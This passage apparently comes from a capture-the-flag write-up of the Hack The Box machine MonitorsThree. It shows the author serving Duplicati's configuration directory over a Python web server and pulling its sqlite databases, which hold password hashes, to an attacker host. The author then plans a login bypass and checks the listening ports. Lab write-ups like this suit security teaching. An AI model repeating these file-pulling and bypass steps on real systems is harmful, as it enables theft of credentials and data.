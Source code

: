 ```
Connecting to 10.129.231.115:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2461696 (2.3M) [application/vnd.sqlite3]
Saving to: ‘CTADPNHLTC.sqlite’

CTADPNHLTC.sqlite               100%[====================================================>]   2.35M  2.41MB/s    in 1.0s    

2025-07-25 15:50:09 (2.41 MB/s) - ‘CTADPNHLTC.sqlite’ saved [2461696/2461696]
```

```
marcus@monitorsthree:/opt/duplicati/config$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
10.10.14.234 - - [25/Jul/2025 20:49:54] "GET /Duplicati-server.sqlite HTTP/1.1" 200 -
10.10.14.234 - - [25/Jul/2025 20:50:08] "GET /CTADPNHLTC.sqlite HTTP/1.1" 200 -
```

Browsing this file I find two interesting hashes for duplicati in `options`:

![htb_monitors3_sql2.png](../assets/monitorsthree_assets/htb_monitors3_sql2.png)

Not exactly sure what to do with these, I find a detailed writeup of utilizing these to bypass login for duplicati: https://read.martiandefense.llc/duplicati-bypassing-login-authentication-with-server-passphrase-024d6991e9ee

Before following this let's confirm that duplicati is actually running:

```
marcus@monitorsthree:/opt/duplicati/config$ ss -tuln
Netid  State   Recv-Q  Send-Q   Local Address:Port    Peer Address:Port Process 
udp    UNCONN  0       0        127.0.0.53%lo:53           0.0.0.0:*            
udp    UNCONN  0       0              0.0.0.0:68           0.0.0.0:*            
tcp    LISTEN  0       4096         127.0.0.1:44177        0.0.0.0:*            
tcp    LISTEN  0       70           127.0.0.1:3306         0.0.0.0:*            
tcp    LISTEN  0       4096     127.0.0.53%lo:53           0.0.0.0:*            
tcp    LISTEN  0       500            0.0.0.0:8084         0.0.0.0:*            
tcp    LISTEN  0       4096         127.0.0.1:8200         0.0.0.0:*            
tcp    LISTEN  0       511            0.0.0.0:80           0.0.0.0:*            
tcp    LISTEN  0       128            0.0.0.0:22           0.0.0.0:*            
tcp    LISTEN  0       511               [::]:80              [::]:*            
tcp    LISTEN  0       128               [::]:22              [::]:*
```
